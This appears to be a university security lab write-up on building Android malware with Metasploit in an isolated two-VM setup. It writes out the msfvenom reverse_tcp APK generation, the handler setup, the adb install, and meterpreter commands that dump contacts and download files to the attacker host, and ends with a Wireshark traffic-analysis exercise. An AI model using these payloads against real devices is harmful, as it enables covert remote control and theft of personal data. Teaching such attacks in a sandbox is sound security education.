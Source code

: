 # Lab 7: Developing Mobile Malware

## Set-up

Set up two VMs, keep the attacker and victim machine within the same subnet.

`````{tabbed} Attacker: Ubuntu

IP address: `10.0.2.15`

Install [Metasploit](https://www.metasploit.com/) Module


```sh
$ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
$ chmod 755 msfinstall
$ ./msfinstall
```

Install `adb` to send `.apk` files to the android VM

```
$ sudo apt install adb
```

`````

`````{tabbed} Victim: Android

IP address: `10.0.2.11`

Run an Android virtual machine as [what seed project requests to do](https://seedsecuritylabs.org/Labs_16.04/Mobile/). After the VM installed, add some entries in `Contacts` app (e.g. Name: KMR, Phone: 114-514-1919)

````{note}
The IP address of the Android VM can be obtained by running `Terminal Emulator` app and typing

```
$ ifconfig
```

````
`````


## Explore Metasploits 

```
$ msfconsole
msf >  search type:payload platform:android
```

Create a reversed TCP [^ex]

```
msf > msfvenom -p android/meterpreter/reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f raw -o reverse_tcp.apk
```

Start a handler:

```
msf > use exploit/multi/handler
msf > set payload android/meterpreter/reverse_tcp
msf > set lhost 10.0.2.15
msf > set lport 4444
msf > exploit
```

Send the `reverse_tcp.apk` to the vicitm machine and install it:

```
$ adb connect 10.0.2.11
$ adb install reverse_tcp.apk
```

From the victim Android, we start the installed app `MainActivity`

![](victim.png)

```{warning}
No obvious response after double-clicking, but actually it is running in the backgroud.
```

Then we can see the session information from the attacker VM:

![Connected successfully](session.png)

Press <kbd>Enter</kbd> and go into the `meterpreter` console.

### Basic Commands

Check if the device is rooted

```
meterpreter > check_root
```

See the current directory where you are

```
meterpreter > pwd
/data/user/0/com.metasploit.stage/files
```

Dump all contacts

```
meterpreter > dump_contacts
[*] Fetching 3 contacts into list
[*] Contacts list saved to: contacts_dump_20210527000741.txt
```

Let's check it:

![Dump all contacts information from the victim Android](contacts.png)

````{seealso}
More commands can be found by:

```
meterpreter > help
```

Or see the [Metasploit Cheat Sheet](https://pentestmag.com/metasploit-cheat-sheet/)
````

[^ex]: https://www.hackers-arise.com/post/2018/07/06/metasploit-basics-part-13-exploiting-android-mobile-devices



## Task: steal sensitive files

For example, get the DNS configurations on the victim mobile:

```
meterpreter > cat /etc/hosts
127.0.0.1       localhost
::1             ip6-localhost
```

Download it to the attacker machine

```
meterpreter > download /etc/hosts
```


## Monitor Traffic

Launch `Wireshark` with root privilege:

```
$ sudo wireshark
```

When starting `exploit` in [Explore Metasploits](#explore-metasploits), `Wireshark` captures the TCP traffic between the attacker and the victim. For example, here is the packets that the reversed TCP connection establishes (Note that `10.0.2.15:4444` is the malicious host):

![](./establish.png)

We dump the captured traffic into an `.pcap` file, which can be opened with `wireshark`. for example:

{download}`sample.pcap`

which records all network traffic during the attack, try to distinguish which traffics are related to the attack process.